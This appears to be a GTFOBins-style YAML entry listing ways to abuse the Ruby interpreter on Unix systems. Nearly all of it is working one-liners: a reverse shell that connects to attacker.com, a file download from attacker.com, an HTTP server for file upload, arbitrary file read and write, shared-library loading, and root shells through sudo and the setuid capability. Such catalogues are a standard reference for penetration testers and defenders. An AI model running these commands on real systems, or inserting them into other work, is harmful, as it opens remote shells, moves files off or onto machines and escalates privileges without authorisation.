 ```yaml
---
functions:
  shell:
    - code: ruby -e 'exec "/bin/sh"'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  file-upload:
    - description: Serve files in the local folder running an HTTP server. This requires version 1.9.2 or later.
      code: |
        export LPORT=8888
        ruby -run -e httpd . -p $LPORT
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        ruby -e 'require "open-uri"; download = open(ENV["URL"]); IO.copy_stream(download, ENV["LFILE"])'
  file-write:
    - code: ruby -e 'File.open("file_to_write", "w+") { |f| f.write("DATA") }'
  file-read:
    - code: ruby -e 'puts File.read("file_to_read")'
  library-load:
    - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
  sudo:
    - code: sudo ruby -e 'exec "/bin/sh"'
  capabilities:
    - code: ./ruby -e 'Process::Sys.setuid(0); exec "/bin/sh"'
---
```

